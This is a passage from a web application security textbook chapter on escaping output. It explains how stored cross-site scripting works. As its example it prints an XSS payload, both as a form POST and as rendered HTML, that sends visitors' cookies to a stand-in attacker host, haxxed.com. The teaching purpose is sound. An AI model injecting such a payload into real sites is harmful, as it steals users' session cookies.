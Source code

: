 Validating files for malicious content is a difficult task, as we shall see in chapter 11, and simple file header checks like the ones illustrated in the preceding code sample merely scratch the surface. Often, it’s better to store files in a third-party *content management system* (CMS) or a web storage solution like Amazon’s *Simple Storage Service* (S3) to keep the files at arm’s length.[](/book/grokking-web-application-security/chapter-4/)

## Escaping output

In the preceding section, we saw how important it is to validate input to a web server because malicious HTTP requests can cause unintended consequences in your applications. (Well, unintended by you; hackers very much intend to achieve them.) It’s equally important to be strict about the *output* from your web server, whether that output is the contents of your HTTP responses or commands that you send to other systems (such as databases, log servers, or the operating system).[](/book/grokking-web-application-security/chapter-4/)[](/book/grokking-web-application-security/chapter-4/)

Being strict about output means *escaping* the output sent to the downstream system, replacing metacharacters that have a special meaning to that system with an *escape sequence* that tells the downstream system something like this: “There was a `<` character here, but don’t treat it as the start of an HTML tag.” As usual, this concept is better illustrated by example, so let’s look at three key contexts in which escaping output is vital for keeping your server secure.[](/book/grokking-web-application-security/chapter-4/)

### Escaping output in the HTTP response

[](/book/grokking-web-application-security/chapter-4/)A common form of attack on the internet is cross-site scripting (XSS), wherein an attacker injects malicious JavaScript into a web page being viewed by another user. In chapter 2, we learned some ways to mitigate the risks of XSS in the browser, but the most important protections need to be implemented on the server. These protections require you to escape any dynamic content written to HTML.[](/book/grokking-web-application-security/chapter-4/)[](/book/grokking-web-application-security/chapter-4/)[](/book/grokking-web-application-security/chapter-4/)[](/book/grokking-web-application-security/chapter-4/)

Let’s review the attack vector to gain a little more context. A typical XSS attack happens as follows:

1.  The attacker finds some HTTP parameter that is designed to be stored in the database and displayed as dynamic content on a web page. This parameter might contain a comment on a social media site or a username.
1.  The attacker, knowing that they now have control of this “untrusted input,” submits some malicious JavaScript under this input:

```
POST /article/12748/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
comment=<script>window.location=
 'haxxed.com?cookie='+document.cookie</script>
```

1.  Another user views the page where this untrusted input is displayed. The `<script>` tag is written in the HTML of the web page:

```
<div class="comments">
 <p class="comment">
   <script>
     window.location='haxxed.com?cookie='+document.cookie
   </script>
 </p>
</div>
```
